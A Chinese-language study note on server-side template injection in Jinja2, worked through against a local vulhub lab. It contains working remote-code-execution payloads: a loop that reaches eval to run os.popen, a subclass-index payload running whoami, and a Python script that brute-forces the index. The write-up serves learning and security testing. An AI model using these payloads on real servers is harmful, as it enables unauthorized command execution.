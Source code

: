```yaml
---
title: SSTI笔记
categories: [笔记]
comments: true
---
```

# SSTI笔记

## 前言

之前对于SSTI的payload构造不是很了解，今天打算重新学一下，了解payload的构造方法

10月份的时候闲的无聊就在挖公益SRC，遇到了一个tomcat的站，然后在Freebuf找到了一个挖洞经验分享，他就用到了Burpsuite的这个模块。这里插个眼：https://www.freebuf.com/articles/web/247253.html

## 利用点

\_\_class\__

返回对象所属类

![image-20201213174236634](../assets/img/text/image-20201213174236634.png)

\__bases\_\_

以元组的形式返回一个类所继承的类

![image-20201213174528533](../assets/img/text/image-20201213174528533.png)

\__mro__

以元组形式返回类的解析顺序

![image-20201213174614261](../assets/img/text/image-20201213174614261.png)

\__subclasses__()

返回类下的所有子类

![image-20201213174925233](../assets/img/text/image-20201213174925233.png)

\__init__

获取每个类的\__init\_\_函数

funtions.\__globals__

用于获取function所处空间下可使用的module、方法以及所有变量。

![image-20201213175305093](../assets/img/text/image-20201213175305093.png)

## 基本注入思路

利用\_\_class\_\_拿到对应的类、利用\__base\_\_拿到基类、用\_\_subclasses\_\_()拿到可利用的类，尝试利用这些类进行getshell

## 实例

靶场来源于vulhub docker搭建的靶场

访问靶场

![image-20201213180017624](../assets/img/text/image-20201213180017624.png)

尝试检测是否存在注入http://192.168.35.128:8000/?name=\{\{123*2\}\}

![image-20201213180044688](../assets/img/text/image-20201213180044688.png)

发现得到的结果正好是算术表达式的结果。确定存在注入

输入payload尝试获取类,需要注意的是要打开F12，不然是看不见解析出来的结果的，因为得到的是<class 'object'>，html会将他识别为标签解析，所以在网页上无法直接显示

http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_}}

![image-20201213180220233](../assets/img/text/image-20201213180220233.png)

获取子类http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_[0].\_\_subclasses\_\_()}}

![image-20201213180534161](../assets/img/text/image-20201213180534161.png)





然后如果在html里找太麻烦了，我懒得看，所以可以换一种方式，利用执行语句的方式直接找到函数之后进行命令执行

```jinja2
payload:
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  	{% for b in c.__init__.__globals__.values() %}
  	{% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  	{% endif %}
 	{% endfor %}
{% endif %}
{% endfor %}

```

![image-20201213193534127](../assets/img/text/image-20201213193534127.png)

## 后记

之前一直在尝试用popen也就是固定的位置，本机测出来的128索引，但是一直失败，不知道为啥，然后去靶机里面查看了才知道是位置不同，踩了好久的坑。。最后测出来popen函数的位置在117

```python
payload：{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__.popen('whoami').read()}}
```

![image-20201213193856764](../assets/img/text/image-20201213193856764.png)

其实也可以利用python写一个简单的脚本遍历这个参数

```python
import requests
for i in range(0,1000):

    url = 'http://192.168.35.128:8000/?name={{"".__class__.__bases__[0].__subclasses__()[%d].__init__.__globals__.popen(\'whoami\').read()}}'% i
    response = requests.get(url)
    if response.status_code == 200:
        print(i)
        break
```

![image-20201213194343290](../assets/img/text/image-20201213194343290.png)

因为错误的时候服务器是返回的500错误码，所以我直接利用200进行判断了，可以根据具体情况修改。